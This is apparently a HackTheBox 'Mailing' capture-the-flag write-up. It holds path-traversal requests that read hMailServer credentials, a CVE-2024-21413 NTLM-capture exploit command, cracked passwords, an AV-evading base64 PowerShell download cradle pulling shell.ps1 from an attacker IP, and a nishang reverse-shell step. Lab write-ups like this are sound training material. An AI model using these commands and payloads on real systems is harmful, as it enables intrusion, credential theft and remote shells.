



# HackTheBox - Mailing

### What I Learned

1. Check get requests for non-sanitized inputs
2. Php file structures for websites always have an "index.php" file that can show the layout of the website/app
3. Applications running almost always have some config or initilization file buried in the machine. Usually in Program files (Progra~1 OR Progra~2)
4. A web cradle is a method to stage external powershell scripts from a launcher
5. Nxc - netexec can be used to check logins, shares, auth privileges, and winrm access

  
<strong>Writeup Summary</strong>

I learned that I really don't like mailing attacks, even though Phishing is one of the most common attack vectors today.

 

## Writeup

Scan the machine with nmap

- `nmap -sV -sC -sT -vv -oA nmap/scan 10.129.231.40`

Try scanning machine using netexec

- See the hostname of the box - Is it part of a domain?
- `nxc smb 10.129.231.40`
- Check for shares, check if anonymous authentication is enabled
  - Check using a user that doesn't exist ('' or '.')
- `nxc smb -u '.' -p '' 10.129.231.40 --shares`

Download the file from the min page, read it for information
Check the downloaded file for data using exiftool

- Exiftool ~/Downloads/instructions.pdf

Check if the download file has been recreated at GET time or if it gets transferred to the local machine directly based on access/modify/change times

- wget 'http://mailing.htb/download.php?file=instructions.pdf'
- stat download.php\?file=-instructions.pdf

---

- Then check a photo from the webpage directly
- wget http://mailing.htb/assets/ruyalonso.jpg
- stat ruyalonso.jpg

Start getting files from the server using burp

- GET /download.php?file=../download.php

File Disclosure in windows machines,

- Check `../../../../../../windows/system32/license.rtf`

Now check for index.php

- GET `/download.php?file=../index.php HTTP/1.1`

Google Hmailserver configuration file

- Check Program files, program files (x86),
- `GET /download.php?file=../../../Program%20Files%20(x86)/hMailServer/bin/hMailServer.ini`

Find 2 passwords

- `AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7 : homenetworkingadministrator`
- Password=0a9f8ad8bf896b501dde74f08efd7e4c

- `nxc smb <IP> -u <USER>-p <PASS>`

Try to login to the server using swaks to verify access to email server.
Could try sending emails to known users, but not sure if that is worth the time

- `swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password <PASSWORD> --quit-after AUTH`

Now search for a machine with a vulnerability using Microsoft email SMTP

Find CVE-2024-21413 on github

- Setup an smb share on your kali machine with the name "smbFolder"
- impacket-smbserver smbFolder $(pwd) -smb2support
- Set up a listener to listen for any response. We care if SMB is active or not

  - `sudo responder -I tun0`

- Once that is running, run the exploit file against the target machine
  - `python3 CVE/21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\\\10.10.14.209\smbFolder\test.txt" --subject Test`

Get an NTLM hash
`maya::MAILING:aaaaaaaaaaaaaaaa:60f6b238b0a3e2756d6d1e35991555b3:010100...`

Crack it with hashcat

- `maya:m4y4ngs4ri`

- Check for authentication privileges
  - `nxc smb 10.129.231.40 -u maya -p m4y4ngs4ri`
- Check for winrm access using nxc
  - `nxc winrm 10.129.231.40 -u maya -p m4y4ngs4ri`
- Check for shares
  - `nxc smb 10.129.231.40 -u maya -p m4y4ngs4ri --shares`
    Use the new credentials with evil-winrm to get access to the machine via smb
- `evil-winrm -u maya -p m4y4ngs4ri -i mailing.htb`

Nothing found in the Important Documents folder.
Try writing to the web directory root - If you can get a shell from the webserver, you might have a dangerous permission

Look for index.php in the wwwroot in the PHP folder, not there
Look in `C:\\wwwroot` , but permissions are denied.

In Burp, check the download.php file that gets the instructions pdf from the main page. Check the instructions folder and find you don't have access there either

In windows, try to steal the hash of the webserver - could leak the ntlm credentials of the webserver

- C:/www/root
  
- But the C:/wwwroot/instructions/ breaks that UNC path

Check the Program files and find LibreOffice running
Check the version

- `type C:\Program Files\LibreOffice\program\version.ini`

Create a web cradle that continuously stages powershell scripts from a launcher

- Stage PS script external to target machines
- Helps to get around antivirus
  - AV doesn't flag this script, but it will flag a revshell
- `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209:8000/shell.ps1')`
- Convert the cradle to base64 in a format that is windows friendly
- cat cradle | iconv -t utf-16le | base64 -w 0
  - Convert text encoding to utf-16 Little Endian - common for windows powershell environments
  - `Base64 -w 0 -> ensures no line breaks in the base 64 output`
  - `SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMAA5ADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==`

Setup a reverse shell oneliner

- `cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 .`

Set up a python server to serve it and the output file from the CVE in the same folder
Upload the exploit.odt file

- `curl http://10.10.14.209:8000/exploit.odt -o exploit.odt`

Wait for the files to be executed and you have a shell.
